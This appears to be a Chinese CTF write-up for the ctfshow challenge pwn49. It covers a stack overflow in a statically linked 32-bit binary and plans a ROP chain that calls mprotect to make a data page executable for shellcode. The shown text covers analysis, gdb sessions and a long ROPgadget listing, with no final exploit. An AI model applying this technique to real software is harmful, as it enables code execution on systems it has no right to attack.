

```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn49
```

```
tasike@tasike-VM:~/Desktop$ file pwn49
pwn49: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=db1e246fe40dca2886c2fe54a05b53299506f3fc, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn49
[*] '/home/tasike/Desktop/pwn49'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

`32bit`，开启了`栈保护(canary)`，但是要注意的是，这个`elf`并不是动态链接的，注意上面第二个代码块中第2行`statically linked`说明是`静态链接的`

`ida`查看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init_0();
  logo();
  ctfshow();
  return 0;
}
```

跟进`ctfshow`

```c
int ctfshow()
{
  char v1[14]; // [esp+6h] [ebp-12h] BYREF

  return read(0, v1, 100);
}
```

> `v1`与`ebp`距离`0x12`

没有`system`和`/bin/sh`

但是`ret2libc`不能用，因为这题不是`动态链接`的，它是`静态链接`的

因此我们的考虑是：

> 用`mprotect`函数来打，因为`mprotect`函数可以修改一段内存空间的权限，那我们选择一段内存空间将它的权限修改为可读可写可执行，然后将`shellcode`写在这段空间，之后再将程序的控制流转到这里，不就可以执行`shellcode`了嘛？即使文件`开启了NX`，但是我们利用的是`栈之外的空间`，从而绕过了NX和栈保护。

`mprotect`原型：

```
#include <sys/mman.h>
int mprotect(void *addr, size_t len, int prot)

mprotect()函数把自start开始的、长度为len的内存区的保护属性修改为prot指定的值。 

第一个参数：开始地址（该地址应是0x1000的倍数，以页方式对齐）
第二个参数：指定长度（长度也应该是0x1000的倍数）
第三个参数：指定属性(其中prot=7时表示可读可写可执行)

如果执行成功，则返回0；如果执行失败，则返回-1，并且设置errno变量，说明具体因为什么原因造成调用失败。错误的原因主要有以下几个：
1）EACCES
该内存不能设置为相应权限。这是可能发生的，比如，如果你 mmap(2) 映射一个文件为只读的，接着使用 mprotect() 标志为 PROT_WRITE。

2）EINVAL
start 不是一个有效的指针，指向的不是某个内存页的开头。

3）ENOMEM
内核内部的结构体无法分配。

4）ENOMEM
进程的地址空间在区间 [start, start+len] 范围内是无效，或者有一个或多个内存页没有映射。 

如果调用进程内存访问行为侵犯了这些设置的保护属性，内核会为该进程产生 SIGSEGV （Segmentation fault，段错误）信号，并且终止该进程。
```

调试一下：
```
tasike@tasike-VM:~/Desktop$ gdb ./pwn49
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 142 pwndbg commands and 46 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
Reading symbols from ./pwn49...
(No debugging symbols found in ./pwn49)
------- tip of the day (disable with set show-tips off) -------
If you have debugging symbols the info args command shows current frame's function arguments (use up and down to switch between frames)
pwndbg>
```

```
pwndbg> b main
Breakpoint 1 at 0x8048a27
pwndbg>
```

```
pwndbg> r
Starting program: /home/tasike/Desktop/pwn49 

Breakpoint 1, 0x08048a27 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────
*EAX  0x80db8c0 (environ) —▸ 0xffffd1ac —▸ 0xffffd385 ◂— 'SHELL=/bin/bash'
*EBX  0x80da000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
*ECX  0xffffd0f0 ◂— 0x1
*EDX  0xffffd144 —▸ 0x80da000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
*EDI  0x80481a8 (_init) ◂— push ebx
*ESI  0x80da000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
*EBP  0xffffd0d8 ◂— 0x0
*ESP  0xffffd0d4 —▸ 0xffffd0f0 ◂— 0x1
*EIP  0x8048a27 (main+14) ◂— sub esp, 4
───────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────────────────
 ► 0x8048a27 <main+14>    sub    esp, 4
   0x8048a2a <main+17>    call   __x86.get_pc_thunk.ax                     <__x86.get_pc_thunk.ax>
 
   0x8048a2f <main+22>    add    eax, 0x915d1
   0x8048a34 <main+27>    call   init                     <init>
 
   0x8048a39 <main+32>    call   logo                     <logo>
 
   0x8048a3e <main+37>    call   ctfshow                     <ctfshow>
 
   0x8048a43 <main+42>    mov    eax, 0
   0x8048a48 <main+47>    add    esp, 4
   0x8048a4b <main+50>    pop    ecx
   0x8048a4c <main+51>    pop    ebp
   0x8048a4d <main+52>    lea    esp, [ecx - 4]
────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffd0d4 —▸ 0xffffd0f0 ◂— 0x1
01:0004│ ebp 0xffffd0d8 ◂— 0x0
02:0008│     0xffffd0dc —▸ 0x804907f (__libc_start_main+943) ◂— add esp, 0x10
03:000c│     0xffffd0e0 —▸ 0x806e22f (_dl_debug_initialize+15) ◂— add ecx, 0x6bdd1
04:0010│     0xffffd0e4 —▸ 0x80da000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
05:0014│     0xffffd0e8 —▸ 0x80da000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x0
06:0018│     0xffffd0ec —▸ 0x804907f (__libc_start_main+943) ◂— add esp, 0x10
07:001c│ ecx 0xffffd0f0 ◂— 0x1
──────────────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────────────
 ► 0 0x8048a27 main+14
   1 0x804907f __libc_start_main+943
   2 0x8048762 _start+50
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>
```

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     Start        End Perm     Size Offset File
 0x8048000  0x80d7000 r-xp    8f000      0 /home/tasike/Desktop/pwn49
 0x80d8000  0x80dc000 rw-p     4000  8f000 /home/tasike/Desktop/pwn49
 0x80dc000  0x80dd000 rw-p     1000      0 [heap]
 0x80dd000  0x80ff000 rw-p    22000      0 [heap]
0xf7ff8000 0xf7ffc000 r--p     4000      0 [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000      0 [vdso]
0xfffdd000 0xffffe000 rw-p    21000      0 [stack]
pwndbg>
```

好像看不出什么

再次利用`ida`，`ctrl + s`调出程序的段表



前面的`mprotect`原型中也说明过，第一个参数必须是`0x1000`的倍数，根据段表，考虑使用`data段`的`0x080DA000`，第二个参数就设置`0x1000`就行(只要够`shellcode`输入就行，大一点也无所谓)，第三个参数设置`7`

由于`payload`中`mprotect`不是最后一个函数，参数需要利用寄存器

查看`pop|ret`(不过这里很离谱，因为有663行)

```
tasike@tasike-VM:~/Desktop$ ROPgadget --binary pwn49 --only "pop|ret"
Gadgets information
============================================================
0x0809f422 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809f41a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x08056194 : pop eax ; pop edx ; pop ebx ; ret
0x080a8dd6 : pop eax ; ret
0x0806a68d : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809f805 : pop ebp ; pop esi ; pop edi ; ret
0x0804834c : pop ebp ; ret
0x0805d6f2 : pop ebp ; ret 4
0x080a1db7 : pop ebp ; ret 8
0x0809f804 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x0805b75e : pop ebx ; pop edi ; ret
0x0806dfea : pop ebx ; pop edx ; ret
0x080a019b : pop ebx ; pop esi ; pop ebp ; ret
0x08048349 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0805d6ef : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x080a1db4 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08049bd9 : pop ebx ; pop esi ; pop edi ; ret
0x08049807 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080c2fdc : pop ebx ; ret 0x6f9
0x0806e012 : pop ecx ; pop ebx ; ret
0x0804834b : pop edi ; pop ebp ; ret
0x0805d6f1 : pop edi ; pop ebp ; ret 4
0x080a1db6 : pop edi ; pop ebp ; ret 8
0x08069cbe : pop edi ; pop ebx ; ret
0x08061c3b : pop edi ; pop esi ; pop ebx ; ret
0x080921b8 : pop edi ; pop esi ; ret
0x08049bdb : pop edi ; ret
0x08056195 : pop edx ; pop ebx ; ret
0x0806e011 : pop edx ; pop ecx ; pop ebx ; ret
0x0806dfeb : pop edx ; ret
0x0809f419 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x08065aba : pop es ; pop edi ; ret
0x08065cfa : pop es ; ret
0x080a019c : pop esi ; pop ebp ; ret
0x0806dfe9 : pop esi ; pop ebx ; pop edx ; ret
0x08061c3c : pop esi ; pop ebx ; ret
0x0804834a : pop esi ; pop edi ; pop ebp ; ret
0x0805d6f0 : pop esi ; pop edi ; pop ebp ; ret 4
0x080a1db5 : pop esi ; pop edi ; pop ebp ; ret 8
0x08069cbd : pop esi ; pop edi ; pop ebx ; ret
0x08049bda : pop esi ; pop edi ; ret
0x08049808 : pop esi ; ret
0x08054706 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0809e12e : pop esp ; ret
0x0805ad28 : pop esp ; ret 0x8b38
0x080622c9 : pop ss ; ret 0x2c73
0x08062c8a : pop ss ; ret 0x3273
0x080622b4 : pop ss ; ret 0x3e73
0x08062c70 : pop ss ; ret 0x4c73
0x0806229f : pop ss ; ret 0x5073
0x0806228a : pop ss ; ret 0x6273
0x08062c56 : pop ss ; ret 0x6673
0x08060805 : pop ss ; ret 0x830f
0x080481b2 : ret
0x0804837f : ret 0
0x080b87c0 : ret 0x10
0x0808d63f : ret 0x107
0x0806f26c : ret 0x1089
0x08099ebe : ret 0x10c
0x0807319b : ret 0x1189
0x08075ba3 : ret 0x11eb
0x0806e04b : ret 0x1275
0x0805b6fa : ret 0x128
0x0809d9b2 : ret 0x14
0x080722fb : ret 0x142b
0x08095dd8 : ret 0x1574
0x080917d7 : ret 0x1676
0x0806d41d : ret 0x1689
0x08073545 : ret 0x1789
0x0804886c : ret 0x1796
0x080c30c6 : ret 0x198
0x0804ca85 : ret 0x19eb
0x080c27f6 : ret 0x1ad4
0x080c0f8d : ret 0x1b49
0x0805c2cb : ret 0x1bf
0x080ba490 : ret 0x1d4
0x080bac28 : ret 0x1d5
0x08095e00 : ret 0x1d74
0x0805c5f4 : ret 0x1d75
0x080580ff : ret 0x1f02
0x0805c8ac : ret 0x1f75
0x08058066 : ret 0x1f9b
0x0807b85f : ret 0x200
0x08059df4 : ret 0x20e9
0x08081393 : ret 0x23e9
0x080b9498 : ret 0x24
0x0806a83a : ret 0x2474
0x08055511 : ret 0x2501
0x08057aca : ret 0x2537
0x08057a8a : ret 0x2577
0x080917c7 : ret 0x2676
0x0805796a : ret 0x2697
0x0809c8b1 : ret 0x273
0x08066ea9 : ret 0x275
0x0809374b : ret 0x27b8
0x080cbe73 : ret 0x28
0x080630aa : ret 0x280f
0x08057c4e : ret 0x2874
0x08056cad : ret 0x28b
0x08049cf3 : ret 0x2901
0x0805e83b : ret 0x2910
0x08097db5 : ret 0x291d
0x0805dabb : ret 0x2a75
0x080622ca : ret 0x2c73
0x0806a9b1 : ret 0x2c77
0x0805cea1 : ret 0x2c8d
0x0806e4b0 : ret 0x2d75
0x0807f213 : ret 0x2deb
0x08057026 : ret 0x2fdb
0x0804bba8 : ret 0x2fe9
0x08057e57 : ret 0x301
0x08056fd6 : ret 0x302b
0x0809368d : ret 0x3075
0x0808abf0 : ret 0x311e
0x08062c8b : ret 0x3273
0x080b9988 : ret 0x33
0x0804cfeb : ret 0x3325
0x080c20d6 : ret 0x3827
0x08073d20 : ret 0x383
0x08066e73 : ret 0x3875
0x080c0766 : ret 0x38ae
0x0804d47b : ret 0x3901
0x0807733b : ret 0x3904
0x0804cc08 : ret 0x3908
0x08092447 : ret 0x3910
0x08086059 : ret 0x3917
0x080917b4 : ret 0x3976
0x080981fb : ret 0x3980
0x08054843 : ret 0x3a3c
0x0807c0da : ret 0x3b01
0x0805bb2a : ret 0x3b75
0x0807a192 : ret 0x3c01
0x080563c8 : ret 0x3c39
0x0806a38a : ret 0x3d
0x0805b8fe : ret 0x3e73
0x0807a69f : ret 0x3e75
0x08081af7 : ret 0x3e9
0x080672f7 : ret 0x3f
0x08078eb2 : ret 0x408d
0x0806d520 : ret 0x4189
0x08098bf9 : ret 0x428b
0x0805df5b : ret 0x428d
0x0805d1d7 : ret 0x430f
0x0806b428 : ret 0x4389
0x08076148 : ret 0x440f
0x0806c82b : ret 0x4439
0x080533e1 : ret 0x4489
0x080495f6 : ret 0x448b
0x08052c29 : ret 0x44c7
0x08094097 : ret 0x4503
0x08082fda : ret 0x4589
0x0804adcd : ret 0x458b
0x080509b6 : ret 0x460f
0x0808e873 : ret 0x4689
0x0805bfd0 : ret 0x468d
0x0809be34 : ret 0x470f
0x080c1264 : ret 0x474c
0x0804f71d : ret 0x4774
0x080c304e : ret 0x48
0x0805a09b : ret 0x48b
0x0805a3e1 : ret 0x48d
0x080c2a22 : ret 0x48f
0x080556f8 : ret 0x4909
0x08049504 : ret 0x4976
0x0806705a : ret 0x498d
0x08073313 : ret 0x4b9
0x0806c544 : ret 0x4c39
0x08062c71 : ret 0x4c73
0x08059e20 : ret 0x4c89
0x080952e9 : ret 0x4d89
0x0804fa56 : ret 0x4d8b
0x0808154d : ret 0x4de9
0x080c2483 : ret 0x4e27
0x08055176 : ret 0x4e8b
0x0807c11f : ret 0x4e8d
0x0804f724 : ret 0x4f0f
0x080a8fd5 : ret 0x5050
0x0804d6a9 : ret 0x5052
0x080622a0 : ret 0x5073
0x0805c440 : ret 0x50e9
0x08058efb : ret 0x5189
0x0804ad3e : ret 0x5201
0x0809ce31 : ret 0x5210
0x0806302e : ret 0x528d
0x0805f452 : ret 0x5310
0x080583b3 : ret 0x5356
0x08066e58 : ret 0x5375
0x08050816 : ret 0x5389
0x0805485e : ret 0x540a
0x0806c660 : ret 0x5422
0x08056552 : ret 0x542b
0x0806c54d : ret 0x5488
0x080597f5 : ret 0x5489
0x0805a850 : ret 0x548b
0x0804812d : ret 0x54fe
0x080c06ec : ret 0x5508
0x0807a1b2 : ret 0x550a
0x0804cce4 : ret 0x5577
0x0804b502 : ret 0x5589
0x080844b9 : ret 0x558b
0x080509b9 : ret 0x558d
0x08069bd4 : ret 0x5608
0x0808d900 : ret 0x5689
0x08054d94 : ret 0x568b
0x080608c5 : ret 0x5708
0x08067578 : ret 0x5710
0x080506b5 : ret 0x572b
0x080a42c8 : ret 0x574
0x0809958a : ret 0x5789
0x080995f3 : ret 0x578b
0x08088246 : ret 0x57e9
0x080c29b4 : ret 0x5803
0x080c03c0 : ret 0x591c
0x080584a4 : ret 0x5975
0x08095a5d : ret 0x59e9
0x080c1127 : ret 0x5ae4
0x0805440a : ret 0x5bf7
0x08092de0 : ret 0x5c8b
0x08048a99 : ret 0x5d89
0x0805cb6a : ret 0x5de9
0x08074f65 : ret 0x5e9
0x0807a24d : ret 0x5f3c
0x08055ec5 : ret 0x6074
0x0806228b : ret 0x6273
0x080c2e4e : ret 0x62c1
0x080718d9 : ret 0x6474
0x0809cd55 : ret 0x6601
0x08069f55 : ret 0x6610
0x08065fb3 : ret 0x6640
0x08062c57 : ret 0x6673
0x08093970 : ret 0x6691
0x0806decb : ret 0x66c3
0x0808c0d6 : ret 0x66e9
0x0809d73c : ret 0x674
0x080917e7 : ret 0x676
0x080c03df : ret 0x67b2
0x0806aa75 : ret 0x67e9
0x08055aef : ret 0x689
0x08099474 : ret 0x6a
0x0807b703 : ret 0x6a52
0x0808fd2e : ret 0x6c3b
0x0809dd13 : ret 0x6d75
0x08091500 : ret 0x6deb
0x0809565a : ret 0x6f6
0x080c2fdd : ret 0x6f9
0x08095916 : ret 0x703
0x0808e264 : ret 0x708d
0x08095d53 : ret 0x7274
0x08049d97 : ret 0x73e9
0x0804863d : ret 0x7401
0x0806f12e : ret 0x7404
0x080524a1 : ret 0x7420
0x08083986 : ret 0x7450
0x0805ae18 : ret 0x7489
0x0804d657 : ret 0x74bf
0x0809635b : ret 0x74ff
0x08061c0f : ret 0x7501
0x08061c14 : ret 0x7502
0x08091f29 : ret 0x7503
0x08061c19 : ret 0x7504
0x08061c1e : ret 0x7508
0x08061c23 : ret 0x7510
0x08061c28 : ret 0x7520
0x08061c2d : ret 0x7540
0x0809971b : ret 0x7589
0x0804b09e : ret 0x758d
0x0804d640 : ret 0x75bf
0x0808d3d5 : ret 0x768d
0x080952f7 : ret 0x76ff
0x080597e1 : ret 0x7c78
0x08092386 : ret 0x7c7b
0x08053523 : ret 0x7c8b
0x08077cb6 : ret 0x7ce9
0x08060905 : ret 0x7e10
0x080a6ed7 : ret 0x7e73
0x080a34da : ret 0x7eb
0x0808c447 : ret 0x7f3c
0x080a0566 : ret 0x7fff
0x0805e965 : ret 0x80
0x08048d57 : ret 0x8000
0x080a95d1 : ret 0x8001
0x080a9ade : ret 0x8166
0x0807d962 : ret 0x820f
0x0804aac5 : ret 0x8301
0x0806a341 : ret 0x8304
0x0805f3f7 : ret 0x8308
0x08060806 : ret 0x830f
0x0806080e : ret 0x8310
0x0807f026 : ret 0x831e
0x0806a325 : ret 0x8320
0x080711f5 : ret 0x833c
0x08066004 : ret 0x8340
0x080719da : ret 0x8365
0x08052c4c : ret 0x83ff
0x0804d934 : ret 0x840f
0x08058eec : ret 0x8501
0x08080709 : ret 0x8504
0x08092dd9 : ret 0x8506
0x08072eb9 : ret 0x8507
0x080a2d05 : ret 0x850c
0x080532f1 : ret 0x850f
0x0806734a : ret 0x8540
0x080814df : ret 0x8589
0x0807e3a0 : ret 0x858b
0x08099125 : ret 0x8603
0x080492e7 : ret 0x860f
0x08059f2f : ret 0x870f
0x080bfd06 : ret 0x871e
0x0808c44e : ret 0x875
0x080482ee : ret 0x8789
0x08074afd : ret 0x8801
0x0807ab26 : ret 0x8802
0x0807395f : ret 0x8804
0x0809e326 : ret 0x880f
0x0805dddc : ret 0x8901
0x0806f120 : ret 0x8902
0x08074f96 : ret 0x8904
0x08098b6d : ret 0x8908
0x0804f054 : ret 0x8909
0x0807b429 : ret 0x8910
0x080586e4 : ret 0x895b
0x0805ae2d : ret 0x8977
0x080a1616 : ret 0x89eb
0x0809d5aa : ret 0x8b01
0x080a2848 : ret 0x8b02
0x0806a353 : ret 0x8b04
0x0806eabc : ret 0x8b08
0x080c252a : ret 0x8b36
0x0805ad29 : ret 0x8b38
0x08071283 : ret 0x8b3c
0x0808e5ce : ret 0x8b90
0x080843d9 : ret 0x8c0f
0x08072fea : ret 0x8d01
0x0809f788 : ret 0x8d04
0x08083b56 : ret 0x8d08
0x0804f8c1 : ret 0x8d0f
0x08067291 : ret 0x8d10
0x0804f9af : ret 0x8d1e
0x0809ae85 : ret 0x8d50
0x08087c21 : ret 0x8d88
0x080840a3 : ret 0x8d8b
0x08096222 : ret 0x8d90
0x080729a0 : ret 0x8dc3
0x080aaa0d : ret 0x8de8
0x0807d9d5 : ret 0x8f0f
0x0807ac8d : ret 0x9066
0x0805c108 : ret 0x9374
0x080a6229 : ret 0x938d
0x0808dd1e : ret 0x940f
0x0806c541 : ret 0x950f
0x080788e5 : ret 0x953b
0x080c1353 : ret 0x9576
0x08088dc4 : ret 0x9589
0x0804cd43 : ret 0x97e8
0x080a6f55 : ret 0x9872
0x080592d0 : ret 0x98b
0x08070526 : ret 0x9adb
0x08098202 : ret 0x9da4
0x08048d2a : ret 0x9da8
0x080a4d1f : ret 0xa
0x0804ff9a : ret 0xa067
0x0809cfdb : ret 0xa068
0x080564f9 : ret 0xa078
0x0808fe76 : ret 0xa18b
0x0808fdb6 : ret 0xa24b
0x0806b66f : ret 0xa272
0x0808fd86 : ret 0xa27b
0x080c1043 : ret 0xa514
0x0805a0a0 : ret 0xa76
0x0809d914 : ret 0xa9e0
0x080704d7 : ret 0xa9e4
0x08094fe6 : ret 0xa9f0
0x080a39cb : ret 0xaa00
0x080ac1ef : ret 0xaa28
0x0806e25b : ret 0xaa40
0x080c14c7 : ret 0xac65
0x080c1e80 : ret 0xacfc
0x0804fc81 : ret 0xafc0
0x0808c08d : ret 0xafe9
0x0805260b : ret 0xb080
0x0805282f : ret 0xb314
0x0809ec88 : ret 0xb379
0x080968e5 : ret 0xb4ff
0x0809c91d : ret 0xb58b
0x0804991d : ret 0xb608
0x0806b1b0 : ret 0xb60f
0x080ab659 : ret 0xb6eb
0x080a5ee1 : ret 0xb70f
0x0806e8bd : ret 0xb744
0x08088dbc : ret 0xb8
0x08048d17 : ret 0xb8c0
0x0806aa1a : ret 0xb9
0x08048dfe : ret 0xb900
0x080c138e : ret 0xb9b9
0x0809d511 : ret 0xba
0x0805e5b6 : ret 0xba4b
0x0805e576 : ret 0xba8b
0x0805e536 : ret 0xbacb
0x0805e4f6 : ret 0xbb0b
0x0805e4b6 : ret 0xbb4b
0x0806e36b : ret 0xbc96
0x080a2d4c : ret 0xbcc8
0x08085ef0 : ret 0xbcd9
0x0809d2b6 : ret 0xbce0
0x0805e3ed : ret 0xbceb
0x0809beab : ret 0xbd83
0x0804c777 : ret 0xbd89
0x0807712d : ret 0xbdeb
0x080c10e4 : ret 0xbe57
0x0809d10e : ret 0xbee0
0x0809cf7b : ret 0xbee4
0x080a28cc : ret 0xbee8
0x080a2cda : ret 0xbeec
0x0806f2c4 : ret 0xbf20
0x0806f442 : ret 0xbf24
0x0806f149 : ret 0xbf28
0x080a1bbb : ret 0xbf40
0x080a26ca : ret 0xbf4c
0x080494ed : ret 0xbf78
0x080491e2 : ret 0xbf88
0x0809d96b : ret 0xc
0x080855f8 : ret 0xc031
0x08078e8d : ret 0xc083
0x08066f65 : ret 0xc085
0x08062f5f : ret 0xc0be
0x0808766c : ret 0xc0c7
0x0804ef68 : ret 0xc101
0x0805b853 : ret 0xc189
0x0806ca07 : ret 0xc221
0x0808b94f : ret 0xc289
0x08062ad9 : ret 0xc2bb
0x08051e8d : ret 0xc301
0x08053755 : ret 0xc329
0x0809d51e : ret 0xc35f
0x0806d174 : ret 0xc389
0x0805dc56 : ret 0xc3ab
0x0805dc16 : ret 0xc3eb
0x0805dbbf : ret 0xc3f3
0x08091f0b : ret 0xc3f6
0x0805dbd6 : ret 0xc42b
0x0805db96 : ret 0xc46b
0x0804cefa : ret 0xc483
0x080bf922 : ret 0xc4c3
0x080c0c98 : ret 0xc4ff
0x0805957c : ret 0xc501
0x0805a2c1 : ret 0xc539
0x0809f75b : ret 0xc601
0x0806ebdc : ret 0xc608
0x08095075 : ret 0xc639
0x0805a3f8 : ret 0xc701
0x0804e09c : ret 0xc702
0x08077995 : ret 0xc704
0x0808531c : ret 0xc783
0x080859e0 : ret 0xc809
0x080a38ce : ret 0xc839
0x0806d50f : ret 0xc883
0x0808251e : ret 0xc889
0x0806ee71 : ret 0xc931
0x0805cbf1 : ret 0xc974
0x0806e60e : ret 0xc984
0x080a8b38 : ret 0xc985
0x08048597 : ret 0xca21
0x080a2ca7 : ret 0xca29
0x0809bee8 : ret 0xca39
0x0809ab93 : ret 0xca73
0x0805a4ab : ret 0xca83
0x0805b4d8 : ret 0xcb83
0x080d62b6 : ret 0xcc0
0x080c072a : ret 0xcca7
0x080c2809 : ret 0xcd11
0x080aa923 : ret 0xcdeb
0x0808571e : ret 0xce39
0x08093ac5 : ret 0xce80
0x080b83c0 : ret 0xd
0x0804e543 : ret 0xd021
0x080494f8 : ret 0xd039
0x0804cffb : ret 0xd089
0x0807afd4 : ret 0xd139
0x0804868d : ret 0xd189
0x0809ce68 : ret 0xd199
0x0809b3f6 : ret 0xd231
0x08049148 : ret 0xd284
0x08074a98 : ret 0xd2e9
0x0806e061 : ret 0xd2eb
0x0809e364 : ret 0xd389
0x08059ffb : ret 0xd539
0x08081d3d : ret 0xd639
0x0809d72f : ret 0xd72
0x080a8b3f : ret 0xd789
0x08092481 : ret 0xd7eb
0x08091f6c : ret 0xd829
0x080a3295 : ret 0xd875
0x080aa94f : ret 0xd889
0x0806f692 : ret 0xd8eb
0x080c22a1 : ret 0xd8f
0x080518e9 : ret 0xd989
0x0806dc3e : ret 0xda80
0x0804f367 : ret 0xdaf7
0x08065eca : ret 0xdb31
0x0805ca6c : ret 0xdb85
0x080a3505 : ret 0xdc75
0x080c2382 : ret 0xdcd9
0x0809f2b1 : ret 0xddf7
0x080c1302 : ret 0xde5d
0x0809b9ee : ret 0xde89
0x0805c166 : ret 0xde9b
0x080c0095 : ret 0xde9e
0x08084b07 : ret 0xdf29
0x08085aea : ret 0xe
0x08055ae4 : ret 0xe083
0x0805e75d : ret 0xe0c1
0x080a56cc : ret 0xe175
0x08048ab1 : ret 0xe183
0x08090a35 : ret 0xe280
0x0804e256 : ret 0xe281
0x08048b0c : ret 0xe283
0x08099f94 : ret 0xe2c1
0x0807bc7a : ret 0xe387
0x080cbe97 : ret 0xe41
0x0809fbc7 : ret 0xe675
0x08082d3f : ret 0xe680
0x080c24a2 : ret 0xe71f
0x0807c33f : ret 0xe74
0x08071a0e : ret 0xe7e9
0x08052dd9 : ret 0xe852
0x08095f25 : ret 0xe883
0x080a7ab3 : ret 0xe889
0x080967af : ret 0xe8c0
0x0809c180 : ret 0xe8c1
0x0805e132 : ret 0xe901
0x080a9699 : ret 0xe902
0x080c0807 : ret 0xe970
0x08074d7a : ret 0xe983
0x0806a9a9 : ret 0xea81
0x08091555 : ret 0xea83
0x0807d74d : ret 0xeac0
0x080487de : ret 0xeac1
0x0809751a : ret 0xead3
0x08079ade : ret 0xebe9
0x080c2fb4 : ret 0xec2
0x0808dc0b : ret 0xec83
0x0806b358 : ret 0xeca9
0x0805c8cd : ret 0xed85
0x08084d2f : ret 0xee7f
0x080c2c56 : ret 0xef32
0x0805e82a : ret 0xf
0x0806affd : ret 0xf004
0x0804ccbb : ret 0xf01
0x08066b7a : ret 0xf02
0x08094f8d : ret 0xf029
0x08060a8f : ret 0xf04
0x0806af86 : ret 0xf07b
0x08086581 : ret 0xf08
0x080966c9 : ret 0xf089
0x08066b23 : ret 0xf10
0x0806ae2a : ret 0xf1d7
0x08066b34 : ret 0xf20
0x0809780a : ret 0xf231
0x08083739 : ret 0xf339
0x0809fd12 : ret 0xf375
0x08066b45 : ret 0xf40
0x080960c9 : ret 0xf475
0x08085863 : ret 0xf50
0x080961a8 : ret 0xf575
0x080a233a : ret 0xf5dc
0x08091f26 : ret 0xf601
0x08060764 : ret 0xf608
0x080a4484 : ret 0xf610
0x0809366f : ret 0xf631
0x0805ed58 : ret 0xf66
0x0809de46 : ret 0xf75b
0x0808ffa6 : ret 0xf775
0x08051513 : ret 0xf799
0x080748eb : ret 0xf800
0x080bff74 : ret 0xf869
0x0807ae31 : ret 0xf889
0x0806d937 : ret 0xf8c1
0x08079007 : ret 0xf980
0x080521ec : ret 0xf989
0x0805484d : ret 0xfa09
0x08059f1a : ret 0xfa81
0x0809604f : ret 0xfa83
0x0805da16 : ret 0xfa89
0x0809ed53 : ret 0xfaa9
0x0804d009 : ret 0xfac1
0x0809e043 : ret 0xfad1
0x080ae198 : ret 0xfb0a
0x080ae1ac : ret 0xfb0b
0x080ae1bc : ret 0xfb0c
0x080ae418 : ret 0xfb0d
0x080ae42c : ret 0xfb0e
0x080ae43c : ret 0xfb0f
0x080ae4fc : ret 0xfb3e
0x08092429 : ret 0xfb89
0x080a359a : ret 0xfb93
0x0806b70d : ret 0xfba9
0x08093b5a : ret 0xfbb5
